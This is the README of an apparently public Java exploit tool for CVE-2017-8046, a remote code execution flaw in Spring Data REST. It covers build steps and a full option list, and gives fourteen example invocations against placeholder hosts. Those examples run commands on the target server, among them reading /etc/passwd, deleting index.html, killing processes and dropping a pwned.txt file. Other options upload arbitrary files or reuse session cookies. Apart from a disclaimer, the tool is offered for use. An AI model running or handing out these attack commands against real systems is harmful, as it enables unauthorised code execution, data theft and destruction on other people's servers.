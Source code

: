 # spring-break_cve-2017-8046

This is a Java program that exploits **Spring Break** vulnerability (**CVE-2017-8046**).

This software is written to have as less external dependencies as possible.

## DISCLAIMER

**This tool is intended for security engineers and appsec guys for security assessments. Please use this tool responsibly. I do not take responsibility for the way in which any one uses this application. I am NOT responsible for any damages caused or any crimes committed by using this tool.**

## Vulnerability info

* **CVE-ID**: CVE-2017-8046
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046)
* **Description**: Malicious *PATCH* requests submitted to *spring-data-rest* servers in **Pivotal Spring Data REST** versions prior to **2.5.12**, **2.6.7**, **3.0 RC3**, **Spring Boot** versions prior to **2.0.0M4**, and **Spring Data** release trains prior to **Kay-RC3** can use specially crafted JSON data to run arbitrary Java code.
* **Vendor link**: [https://pivotal.io/security/cve-2017-8046](https://pivotal.io/security/cve-2017-8046)

## How to generate an executable JAR

Here some steps to follow in order to generate an executable JAR, with all dependencies into it, that can be used to launch the exploit.

### with Maven

Following Maven command can be launched:

```
mvn clean compile package
```

### with Eclipse

Following steps can be done:
1. solve all external dependencies/libraries;
1. right click on the Eclipse project and go to `Run As > Run Configurations`;
1. right click on `Java Application` then on `New`;
1. choose a name and set the main class to `com.afs.exploit.spring.SpringBreakCve20178046`;
1. click on `Apply` button;
1. close the window and go back to the main Eclipse window;
1. right click on the Eclipse project and click on `Export...`;
1. find and choose `Runnable JAR file` (under `Java` branch);
1. in the following window:
   1. choose the correct `Launch configuration` created before;
   1. choose an `Export destination`;
   1. choose the option `Extract required libraries into generated JAR`;
   1. click on `Finish` button.

## Help

```
Usage:
   java -jar spring-break_cve-2017-8046.jar [options]
Description:
   Exploiting 'Spring Break' Remote Code Execution (CVE-2017-8046).
Options:
   -h, --help
      Prints this help and exits.
   -u, --url [target_URL]
      The target URL where the exploit will be performed.
      You have to choose an existent resource.
   -cmd, --command [command_to_execute]
      The command that will be executed on the remote machine.
   -U, --upload [file_to_upload]
      File to upload to the remote machine. Will be uploaded to the current working
      directory of the java process.
   --remote-upload-directory [/some/existing/path/]
      Optional. Server will attempt to write the uploaded file to this directory on the
      filesystem. Specified directory must exist and be writeable.
   --cookies [cookies]
      Optional. Cookies passed into the request, e.g. authentication cookies.
   -H, --header [custom_header]
      Optional. Custom header passed into the request, e.g. authorization header.
   --clean
      Optional. Removes error messages in output due to the usage of the
      exploit. It could hide error messages if the request fails for other reasons.
   --error-stream
      Optional. In case of errors the command will fail and the error stream will
      not be returned. This option can be used to relaunch the remote command
      returning the error stream.
   -v, --verbose
      Optional. Increase verbosity.
```


## Examples

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln01.foo.com/api/v1/entity/123" --command ipconfig
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln02.foo.com/api/v2/entity/42" --command ipconfig --cookies "JSESSIONID=qwerty0123456789"
```

```
java -jar spring-break_cve-2017-8046.jar -v --url "https://vuln02.foo.com/api/v2/entity/42"  --upload file.sh --remote-upload-directory /tmp
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln03.foo.com/asd/api/v1/entity/1" --command dir --cookies "JSESSIONID=qwerty0123456789;foo=bar"
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln04.foo.com/asd/api/v1/entity/1" --command "dir C:\Windows" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln05.foo.com/asd/api/v1/entity/1" --command "copy /b NUL ..\..\pwned.txt" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln06.foo.com/asd/api/v1/entity/1" --command "ping -c 3 www.google.it" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln07.foo.com/asd/api/v1/entity/1" --command "ps aux" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln08.foo.com/asd/api/v1/entity/1" --command "uname -a" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln09.foo.com/asd/api/v1/entity/1" --command "ls -l" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln10.foo.com/asd/api/v1/entity/1" --command "wget https://www.google.com" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln11.foo.com/asd/api/v1/entity/1" --command "rm index.html" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln12.foo.com/asd/api/v1/entity/1" --command "cat /etc/passwd" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln13.foo.com/asd/api/v1/entity/1" --command "kill -9 5638" --clean
```

Please note that the referenced resource/URL must exist!

## Vulnerable application

A vulnerable application can be found [here](https://github.com/m3ssap0/SpringBreakVulnerableApp).

## Authors

* **Antonio Francesco Sardella** - *main implementation* - [m3ssap0](https://github.com/m3ssap0)
* **Yassine Tioual** - *HTTP header enhancement* - [nisay759](https://github.com/nisay759)
* **Robin Wagenaar** - *for the suggestion to use patch operation 'remove' instead of 'replace'* - [RobinWagenaar](https://github.com/RobinWagenaar)

## License

This project is licensed under the Apache License Version 2.0 - see the **LICENSE.txt** file for details.

## Acknowledgments

* [Man Yue Mo](https://lgtm.com/blog/spring_data_rest_CVE-2017-8046_ql) the security researcher who discovered the vulnerability